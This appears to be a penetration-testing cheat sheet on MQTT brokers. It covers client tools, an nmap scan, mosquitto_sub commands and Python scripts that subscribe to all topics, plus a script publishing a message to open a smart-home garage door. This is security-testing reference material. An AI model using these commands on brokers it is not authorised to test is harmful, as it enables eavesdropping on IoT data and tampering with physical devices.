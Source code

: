 # MQTT

### Discovery

MQTT client:

* mqtt-spy
* [MQTT CLI](https://asciinema.org/a/DlPmJwXbhuAURHseamGdMy4z3/embed?speed=2\&autoplay=true)
* [MQTT Lens](https://chrome.google.com/webstore/detail/mqttlens/hemojaaeigabkbcookmlgmdigohjobjm)
* MQTT.fx
* mosquitto\_tools

Scan an MQTT with nmap : `nmap -p 1883 -vvv --script=mqtt-subscribe -d sensors.domain.com`

```powershell
mosquitto_sub -h sensors.domain.com -t '#'
mosquitto_sub -h sensors.domain.com -t '+'
mosquitto_sub -h sensors.domain.com -t "/sensor/"
```

### Explore MQTT

Connect and subscribe to every topics using the `#` keyword.

```python
import paho.mqtt.client as mqtt
def on_connect(client, userdata, flags, rc):
   print "[+] Connection successful"
   client.subscribe('#', qos = 1)        # Subscribe to all topics
   client.subscribe('$SYS/#')            # Broker Status (Mosquitto)
def on_message(client, userdata, msg):
   print '[+] Topic: %s - Message: %s' % (msg.topic, msg.payload)
client = mqtt.Client(client_id = "MqttClient")
client.on_connect = on_connect
client.on_message = on_message
client.connect('SERVER IP HERE', 1883, 60)
client.loop_forever()
```

Send MQTT requests

```python
import paho.mqtt.client as mqtt
def on_connect(client, userdata, flags, rc):
   print "[+] Connection success"
client = mqtt.Client(client_id = "MqttClient")
client.on_connect = on_connect
client.connect('IP SERVER HERE', 1883, 60)
client.publish('smarthouse/garage/door', "{'open':'true'}")
```
